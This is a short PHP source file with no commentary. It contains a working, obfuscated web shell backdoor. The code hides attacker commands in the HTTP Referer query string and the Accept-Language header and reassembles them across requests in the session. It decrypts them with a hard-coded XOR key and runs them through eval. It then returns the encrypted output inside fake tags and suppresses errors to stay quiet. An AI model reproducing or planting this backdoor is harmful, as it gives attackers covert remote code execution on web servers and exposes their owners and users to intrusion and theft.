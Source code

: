 
```php
<?php
$kh="4f7f";
$kf="28d7";
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra)
{
    $u=parse_url($rr);
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m)
    {
        @session_start();
        $s=&$_SESSION;
        $i=$m[1][0].$m[1][1];
        $h=strtolower(substr(md5($i.$kh),0,3));
        $f=strtolower(substr(md5($i.$kf),0,3));
        $p="";
        for($z=1; $z<count($m[1]); $z++)$p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0)
        {
            $s[$i]="";
            $p=substr($p,3);
        }
        if(array_key_exists($i,$s))
        {
            $s[$i].=$p;
            $e=strpos($s[$i],$f);
            if($e)
            {
                $k=$kh.$kf;
                ob_start();
                //！
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),substr($s[$i],0,$e))),$k)));
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
```

